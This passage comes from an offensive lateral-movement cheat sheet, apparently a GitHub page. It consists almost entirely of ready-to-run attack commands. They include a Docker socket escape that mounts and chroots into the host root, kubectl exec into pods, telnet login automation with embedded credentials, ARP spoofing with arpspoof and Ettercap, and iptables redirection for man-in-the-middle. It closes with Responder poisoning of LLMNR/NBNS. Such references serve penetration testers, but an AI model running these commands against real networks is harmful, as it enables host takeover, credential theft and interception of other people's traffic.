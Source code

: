 	docker -H unix:///var/run/docker.sock run -v /:/host -i -t ubuntu chroot /host bash
	```

#### Leveraging Kubernetes for Lateral Movement
- **List Kubernetes Pods in a Cluster:**
	```bash
	kubectl get pods --all-namespaces
	```
- **Execute Commands Inside a Kubernetes Pod:**
	```bash
	kubectl exec -it <pod_name> -- /bin/bash
	```

#### VNC Pivoting
- **Connects to a VNC server on a remote host:**
	```bash
	vncviewer <target_ip>:<port>
	```

#### Automate Telnet Commands with `expect`
- **Automate Telnet Commands with `expect`:**
	```bash
	expect -c " spawn telnet <target_ip> expect "login:" send \"user\r\" expect "Password:" send \"password\r\" interact "
	```

# ARP Spoofing for Lateral Movement

#### ARP Cache Poisoning
- **Perform an ARP spoof attack to redirect network traffic between the target and the gateway:**
	```bash
	arpspoof -i <interface> -t <target_ip> <gateway_ip>
	```
- **Perform ARP poisoning using Ettercap to intercept traffic:**
	```bash
	ettercap -T -M arp:remote /<target_ip>/ /<gateway_ip>/
	```

#### ARP Manipulation with iptables
- **Set up a man-in-the-middle attack by redirecting traffic intended for one machine to another:**
	```bash
	iptables -t nat -A PREROUTING -p tcp --dport 22 -j DNAT --to-destination <target_ip>:<port>
	```

# Lateral Movement via Active Directory

#### Exploiting LLMNR/NBNS
- **Exploit LLMNR/NBNS Using `responder`:**
	```bash
	sudo responder -I eth0 -rdw
	```
